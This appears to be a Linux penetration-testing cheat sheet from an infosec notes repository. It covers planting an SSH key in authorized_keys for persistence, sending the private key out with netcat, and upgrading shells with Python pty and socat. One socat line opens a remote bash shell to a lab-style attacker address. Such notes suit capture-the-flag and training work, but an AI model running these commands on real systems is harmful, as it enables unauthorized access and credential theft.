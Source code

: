 # SSH
- Using .ssh/authorized_keys
  - Create the keys: `ssh-keygen -t rsa`
  - Copy the public key to .ssh/authorized_keys: `cp id_rsa.pub ~/.ssh/authorized_keys`
  - Change the permissions of the .ssh folder to 700: `chmod 700 ~/.ssh`
  - Change the permissions of the .ssh/authorized_keys file to 600: `chmod 600 ~/.ssh/authorized_keys`
  - Download the private key: `nc ip port < id_rsa`
  - Change the permissions of the local priate key to 600: `chmod 600 id_rsa`
  - Log in using SSH: `ssh -i id_rsa user@ip`

# [Upgrading TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)
- With Python:
```bash
	python -c 'import pty; pty.spawn("/bin/bash")'
	ctrl+z
	echo $TERM && tput lines && tput cols
	stty raw -echo
	fg
	export SHELL=bash
	export TERM=xterm-256color
	stty rows 24 columns 121
```
- With Socat:
```bash
	socat file:`tty`,raw,echo=0 tcp-listen:4445
	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.35:4445
```

# [General](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/general.md)
# [Enumeration](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/enumeration.md)
# [Local File Inclusion](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/local%20file%20inclusion.md)
# [Networking](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/networking.md)
# [Characters not allowed](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/characters%20not%20allowed.md)
# [Exploitation](https://github.com/PinkDraconian/InfoSecCheatSheets/blob/master/linux/exploitation.md)
